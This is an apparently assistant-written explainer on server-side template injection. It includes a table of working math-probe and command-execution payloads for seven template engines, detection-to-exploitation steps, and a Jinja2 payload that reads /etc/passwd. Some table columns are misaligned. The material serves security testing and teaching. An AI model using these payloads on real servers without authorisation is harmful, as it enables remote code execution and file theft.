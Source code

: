 SSTI is like giving a stranger the keys to your kitchen — instead of just letting them write a greeting on the cake, they can open the oven, change the recipe, and even burn down the whole house.

---

Alright Ali — let’s go through **SSTI payload examples** for different template engines, then wrap it up with a **final, complete explanation** so you have the whole picture.

---

## 🧪 Common SSTI Payload Examples by Template Engine

Different frameworks use different template engines, so the syntax changes. Here’s a quick reference:

| Language / Framework                | Template Engine   | Test Payload (Math)                                       | Escalation Payload (RCE)                               |     |
| ----------------------------------- | ----------------- | --------------------------------------------------------- | ------------------------------------------------------ | --- | --- |
| **Python / Flask, Django (Jinja2)** | `{{7*7}}`→`49`    | `{{ cycler.__init__.__globals__.os.popen('id').read() }}` |                                                        |     |
| **Python / Tornado**                | Tornado Templates | `{{7*7}}`                                                 | `{% import os %}{{ os.system('id') }}`                 |     |
| **Ruby / Rails**                    | ERB               | `<%= 7*7 %>`                                              | `<%= system('id') %>`                                  |     |
| **PHP / Symfony, Laravel**          | Twig              | `{{7*7}}`                                                 | `{{ system('id') }}`                                   |     |
| **Java / Spring**                   | FreeMarker        | `${7*7}`                                                  | `${"freemarker.template.utility.Execute"?new()("id")}` |     |     |
| **Java / Thymeleaf**                | Thymeleaf         | `[[${7*7}]]`                                              | `[[${T(java.lang.Runtime).getRuntime().exec('id')}]]`  |     |     |
| **JavaScript / Node.js**            | EJS               | `<%= 7*7 %>`                                              | `<%= require('child_process').execSync('id') %>`       |     |

---

## 🔍 How to Use These Payloads in Testing

1. **Detection Phase**
   - Inject a harmless math expression (`{{7*7}}`, `<%=7*7%>`, `${7*7}`) into any input that appears in the rendered page.
   - If the output shows `49`, `49.0`, or similar, the template engine is evaluating your input.
2. **Fingerprinting the Engine**
   - Try syntax from different engines to see which one works.
   - This tells you which payload style to use for exploitation.
3. **Exploitation Phase**
   - Once confirmed, escalate to reading files or executing commands.
   - Example (Jinja2):
     ```jinja2
     {{ cycler.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
     ```

---

## 🛡 Why SSTI Is Dangerous

- **Direct path to RCE** : Many template engines expose functions that can run system commands.
- **Bypasses normal input validation** : Because the injection happens inside server-side rendering logic.
- **Affects multiple languages** : Python, PHP, Ruby, Java, JavaScript — all have vulnerable engines if misused.

---